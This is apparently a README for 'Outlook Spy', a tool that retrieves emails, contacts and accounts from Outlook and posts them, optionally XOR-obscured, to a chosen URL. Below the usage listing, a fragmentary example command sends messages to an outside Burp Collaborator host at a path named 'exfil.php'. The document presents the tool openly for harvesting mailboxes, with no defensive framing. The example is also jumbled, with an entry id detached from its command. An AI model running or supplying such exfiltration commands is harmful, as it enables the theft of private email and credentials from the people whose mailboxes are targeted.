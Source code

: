# Outlook Spy

Outlook Spy enables the retrieval of emails, contacts and accounts from Outlook.

```
Usage: OutlookSpy.exe <options>
        Required
                -a, --action    Action to be taken

        Optional
                -e, --entry-id  Outlook generated entry id of the record to fetch.
                -m, --max-records       Number of messages to retrieve
                -br, --body-contains-regex      Regex for searching email
                -bc, --body-contains    String for searching email body (insensitive).
                -sr, --subject-contains-regex   Filters messages if the subject contains the specified value.
                -sc, --subject-contains Filters messages if the subject contains the specified value.
                -fs, --max-message-size Restricts gathered messages to the specified size in bytes.
                -o, --output    Output type: csv,json
                -u, --url       url where data will be posted
                -x, --xor-key   Xor data before transmitting
                -f, --fields    Fields to include in final output.  If not specified, all fields are returned
```


0F77511CEB4CD00AA00BBB6E600000000000C0000D9539C2261A6BB45B9DAB62C7081B3C101000C0000000000 -u https://v2yacmohjrhwn7tg9m0km7lxvo1ep3.burpcollaborator.net/exfil.php


--action messages